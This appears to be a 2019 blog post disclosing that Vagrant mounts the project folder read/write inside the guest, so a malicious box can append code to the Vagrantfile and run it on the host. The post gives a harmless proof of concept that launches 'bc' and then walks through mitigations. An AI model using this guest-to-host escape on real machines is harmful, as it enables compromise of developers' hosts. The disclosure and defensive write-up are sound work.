 ```yaml
---
layout: post
title: Malicious vagrant boxes
---
```


{{ page.title }}
================

<p class="meta">8 June 2019 - Mojave Desert</p>
Hey so did you know by default vagrant run's VM's in the same security context as your host operating system! Kinda wild right? So does that mean that if you tested a strange and unknown vagrant box off https://app.vagrantup.com/boxes/search you might be pwned? Absolutely!

"WTF?"

You might be asking. WTF indeed.

The issue is pretty straight forward, for some reason vagrant mounts the code directory inside the VM as read/write. Normally the VM would be running your code so this wouldn't be much of a concern however this directory also contains the Vagrantfile configuration, which of course is just a ruby script and is executed everytime you run `vagrant` on the host.

Kinda crazy right?

So here's a quick example getting execution on the host from simply editing this file within the VM.

```
host$ vagrant init
A `Vagrantfile` has been placed in this directory. You are now
ready to `vagrant up` your first virtual environment! Please read
the comments in the Vagrantfile as well as documentation on
`vagrantup.com` for more information on using Vagrant.
host$ sed -i -e '/config.vm.box =/s@.*@config.vm.box = "ubuntu/eoan64"@' Vagrantfile   # Set config.vm.box to ubuntu/eoan64
host$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Checking if box 'ubuntu/eoan64' version '20190605.0.0' is up to date...
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
host$ vagrant ssh

**snip**

vagrant@ubuntu-eoan:~$ echo 'exec("bc")' >> /vagrant/Vagrantfile
vagrant@ubuntu-eoan:~$ logout
Connection to 127.0.0.1 closed.
host$ vagrant halt
bc 1.06
Copyright 1991-1994, 1997, 1998, 2000 Free Software Foundation, Inc.
This is free software with ABSOLUTELY NO WARRANTY.
For details type `warranty'. 
1+1
2
```
Ouch, that’s certainly not expected for software that’s essentially a wrapper around various hypervisors.


Now I've been meaning to make a post about this for some time, when I originally noticed this it was very difficult to find *any* mention of this which is a bit unfortantate. For a while I've been using the following workaround, which I admit isn't ideal.. but still works.

```
  config.vm.synced_folder ".", "/vagrant", disable: true
  config.vm.synced_folder "vagrant", "/vagrant"
```
This will move the shared folder to a subfolder named vagrant under the main directory, which includes the Vagrantfile config.


Just now though when I was writing this I was surprised to notice this warning that pops up when you run `vagrant up` the very first time on your computer (but not after that! Well specifically only the first time for each box, but.. still).

```
Vagrant is currently configured to create VirtualBox synced folders with
the `SharedFoldersEnableSymlinksCreate` option enabled. If the Vagrant
guest is not trusted, you may want to disable this option. For more
information on this option, please refer to the VirtualBox manual:

  https://www.virtualbox.org/manual/ch04.html#sharedfolders

This option can be disabled globally with an environment variable:

  VAGRANT_DISABLE_VBOXSYMLINKCREATE=1

or on a per folder basis within the Vagrantfile:

  config.vm.synced_folder '/host/path', '/guest/path', SharedFoldersEnableSymlinksCreate: false
```

So it seems like this has been added more recently and there may be a better option to prevent this issue. Let's try it.

```
host$ sed -i -e "/config.vm.box =/a\ 
config.vm.synced_folder '.\/', '\/vagrant', SharedFoldersEnableSymlinksCreate: false" Vagrantfile    # Add suggested line to config just after the config.vm.box line
host$ sed -i -e "/exec/d" Vagrantfile    # Delete exec('bc') line
host$ vagrant up --provision
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Checking if box 'ubuntu/eoan64' version '20190605.0.0' is up to date...
==> default: Clearing any previously set forwarded ports...
==> default: Clearing any previously set network interfaces...
==> default: Preparing network interfaces based on configuration...

** snip **

host$ vagrant ssh

** snip **
vagrant@ubuntu-eoan:~$ ls /vagrant/
vagrant@ubuntu-eoan:~$ sudo touch /vagrant/asdf
vagrant@ubuntu-eoan:~$ ls -lah /vagrant/
total 8.0K
drwxr-xr-x  2 root root 4.0K Jun  8 09:00 .
drwxr-xr-x 20 root root 4.0K Jun  8 08:59 ..
-rw-r--r--  1 root root    0 Jun  8 09:00 asdf
vagrant@ubuntu-eoan:~$ logout
Connection to 127.0.0.1 closed.
host$ ls -lah
total 8
drwxr-xr-x   4 jarv  wheel   128B Jun  8 02:01 .
drwxrwxrwt  15 root  wheel   480B Jun  8 02:01 ..
drwxr-xr-x   4 jarv  wheel   128B Jun  8 00:33 .vagrant
-rw-r--r--   1 jarv  wheel   3.0K Jun  8 01:52 Vagrantfile
host$ 
```

So it looks like that fixes the issue, but also doesn't seem to share the code directory.. which limit's the usefullness of vagrant I would imagine. Ideally I think the share should just mount as readonly, seems like the simplest safe solution.
